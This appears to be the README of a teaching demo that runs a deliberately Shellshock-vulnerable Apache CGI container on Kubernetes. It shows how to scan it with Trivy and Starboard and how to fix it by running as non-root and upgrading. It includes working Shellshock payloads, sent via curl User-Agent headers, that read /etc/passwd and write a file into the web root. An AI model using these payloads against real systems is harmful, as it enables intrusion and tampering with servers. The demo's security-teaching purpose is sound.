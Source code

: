 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerability. This builds on an original version by [Thibault Normand](https://github.com/Zenithar)

This demo uses three different versions

* shellshockable:0.1.0 - runs as root and includes shellshock vulnerability
* shellshockable:0.2.0 - runs as non-root but still has the vulnerability
* shellshockable:0.3.0 - runs as non-root, without shellshock vulnerability

### Build and push to Docker Hub

```sh
make push
```

> TODO: environment variable for Docker Hub account / registry so it doesn't have to use lizrice (needs changes to makefile and Helm chart)

### Find the vulnerability with Trivy

```sh
trivy image lizrice/shellshockable:0.1.0
```

> Note: the Dockerfile installs the vulnerable package. A vulnerability scanner wouldn't find the vulnerability if you build the vulnerable version of bash from source.

### Install on Kubernetes with Helm

```sh
helm install shell-chart shellshockable/ --values shellshockable/values.yaml
```

### Port-forwarding

```sh
# Run this in the background or in another terminal window
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

> TODO: use an ingress so you don't have to re-do the port forwarding every time

> TODO: could also set up a fake domain in /etc/hosts on the host to pretend that this is on a "real" web site

### Regular query

```sh
curl localhost:8081/cgi-bin/shockme.cgi
```

> TODO: consider renaming shockme.cgi so it's more "normal"

### Read files from the host

```sh
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

You can put the user agent string into a variable to make this easier to type live

```sh
export SHOCK="() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd"
curl -A $SHOCK localhost:8081/cgi-bin/shockme.cgi
```

### Create a new page

```sh
curl localhost:8081/liz.html
# doesn't exist yet

curl -A "() { :; }; echo hello > /var/www/html/liz.html" localhost:8081/cgi-bin/shockme.cgi

# Find new file
curl localhost:8081/liz.html
```
### Test bash for Shellshock vulnerability

Get into the vulnerable container:

```sh
kubectl exec -it  $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) bash
```

Test that its version of bash is exploitable:

```sh
env x='() { :; }; echo vulnerable' bash -c "echo test"
```

You'll see the word "vulnerable" only if shellshock is present.

## Starboard

Install [starboard](https://github.com/aquasecurity/starboard) - for example `kubectl krew install starboard`
and  `kubectl starboard init` to create the CRDs.

```sh
kubectl starboard find vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard get vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard polaris
```

Run `octant` to view them there. You should see vulnerabilities (including HIGH severity shellshock) and config issues from Polaris (including failing the runAsNonRoot test).

## Run as non-root

```sh
helm upgrade -f 0.2.0.yaml shell-chart shellshockable
```

This container uses a high numbered port so it can run as nonRoot

```sh
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

Re-run polaris and check the test for runAsNonRoot is now passing.

> Note: This config doesn't set readOnlyRootFileSystem, because Apache wants to write files.

## Upgrade to non-vulnerable version

```sh
helm upgrade -f 0.3.0.yaml shell-chart shellshockable
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

Re-run find vulnerabilities and check this is no longer an issue